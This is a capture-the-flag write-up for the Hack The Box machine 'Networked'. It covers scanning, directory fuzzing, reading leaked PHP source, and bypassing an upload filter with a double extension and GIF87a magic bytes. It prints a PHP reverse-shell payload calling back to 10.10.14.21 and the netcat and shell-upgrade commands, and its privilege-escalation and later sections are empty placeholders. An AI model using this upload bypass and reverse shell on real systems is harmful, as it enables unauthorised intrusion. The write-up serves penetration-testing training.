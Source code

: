 # Networked

**Links:** [1](https://www.hackthebox.com/machines/Networked)  [2](https://app.hackthebox.com/machines/Networked)

**Machine ip:** 10.10.10.146

![networked](https://github.com/h4md153v63n/CTFs/assets/5091265/92cd2294-7d07-497d-8f0d-7ed00d4d5c9f)

## Reconnaissance
First thing first, start with port scan to see which ports are open and which services are running on those ports.
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.146 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.146 --open`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/75a583b5-e3f7-4d7d-bc33-12c1747da5ec)

+ The result shows that 2 tcp ports are open:
```
Port tcp 22: OpenSSH 7.4
Port tcp 80: Apache httpd 2.4.6
```


## Enumeration
+ As usual, always start off with enumerating web server first.
+ Visit the web application.
+ Navigate to `http://10.10.10.146/`, and see the text.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dfa167a8-c0a2-414c-8dd2-278a62540c7c)

+ Viev page source, and take note of **upload** with **gallery** paths.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a06ac56d-8266-4ee5-99e1-96d5284435cc)

+ As always, on each web app, start directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.146/ -k -n -x html,php,txt -r -t 30
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/360da068-3dd3-412f-80f2-5b85dd3d5ae4)

+ Visit **upload.php** page.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/02cf635c-1554-499f-a6ce-f996bf402e30)

+ Next, visit the **backup** directory. It contains a compressed file **backup.tar**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6e294d32-8a7e-4eda-9d1f-28aca1301525)

+ Download the file and decompress it: `tar xvf backup.tar -C backup/`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ba492160-c355-46dd-bc06-b00b24a19f43)

+ It contains the source code of the php scripts running on the web server.
+ Check the code of **upload.php** file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0d3c93b1-9f06-44ee-90ad-e9343923f5f9)

+ Check the code of **lib.php** file.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a8475de9-9279-40ed-9af0-2ed8d1f9653c)


## Gaining Access
+ Create a reverse shell **.php** file as **shell.php**, and then add one more extension as **.png** after **.php**. 
```
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/4444 0>&1'"); ?>
```

+ Change mimetype adding `GIF87a`.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/53636d84-a81d-4051-a7ce-664e846b9855)

+ Upload it using browse button, and go.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/73fb950b-5722-4dd5-8f09-b12bb67e1677)

+ Start netcat listener on the attack machine: `nc -lnvp 4444`
+ Go to the **http://10.10.10.146/photos.php** that is discovered on the first directory fuzzing.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/938b2b01-5334-437a-8769-5de7d1585d15)

+ Get low level shell, and see the **web daemon user (www-data)**'s privilege is **not** enough to view the content of the user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7e030c55-ccc1-4d2d-987e-aae574a007fb)


### Shell Upgrade
+ We have partially interactive bash shell. Upgrade it to get a fully interactive shell, do more stable with a better shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL^Z: Ctrl + Z
stty raw -echo; fg
reset
terminal type? 'screen' or 'xterm'
export TERM=xterm  
export SHELL=bash
stty rows 55 columns 285
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a949dd60-e50c-4d98-8c1b-93ff60a0657c)



## Privilege Escalation
+ Escalate privileges to get the root flag.



# Technical Knowledge
+ xxx


# CVE Scripting
+ xxx


# References & Alternatives
+ https://vvmlist.github.io/#Networked
+ https://0xdf.gitlab.io/2019/11/16/htb-networked.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/networked-writeup-w-o-metasploit
+ xxx


# For More
+ xxx
